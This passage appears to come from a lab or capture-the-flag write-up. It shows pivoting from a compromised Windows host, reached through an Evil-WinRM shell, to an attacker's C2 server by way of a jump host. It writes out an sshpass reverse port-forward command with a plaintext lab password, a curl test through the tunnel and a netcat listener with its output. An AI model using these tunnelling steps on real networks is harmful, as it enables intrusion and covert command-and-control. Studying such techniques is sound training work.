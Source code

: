 We can confirm that `Southern-Tower` can ping the jump host using its internal IP address:

```
*Evil-WinRM* PS C:\Users\gatari\Documents> ping 10.2.10.9 -n 1

Pinging 10.2.10.9 with 32 bytes of data:
Reply from 10.2.10.9: bytes=32 time<1ms TTL=64
```

In order to facilitate a connection from the `Southern-Tower` (or any other internal machine) to our C2 server, we need to tunnel traffic out through the jump host. For those familiar with red team infrastructure, this is very similar to a C2 redirector.

![img](https://cdn.packtpub.com/article-hub/articles/e643d07fe8f9f65126dac04d4edd4111.png)

In the context of this environment, the setup looks something like this:

![img](./assets/pivot.png)

The reverse port forward (`FwdRule1`) can be staged using `ssh` with the following syntax:

```
sshpass -p '8iP0TbO5mQmS' ssh svc_jmp@172.16.10.10 -R 41337:0.0.0.0:6969 -N
```

This will map `jump:41337 <-> attacker:6969`, we can also verify this by curling the `jump` host on `Southern-Tower`:

```
*Evil-WinRM* PS C:\Users\gatari\Documents> curl 10.2.10.9:41337

┌──(kali㉿kali)-[~/ctf]
└─$ nc -lnvp 6969
listening on [any] 6969 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 45878
GET / HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.20348.558
Host: 10.2.10.9:41337
Connection: Keep-Alive
```

Next, we can set up a listener on the jump host using `mtls` on `TCP/6969` (on the attacker machine):
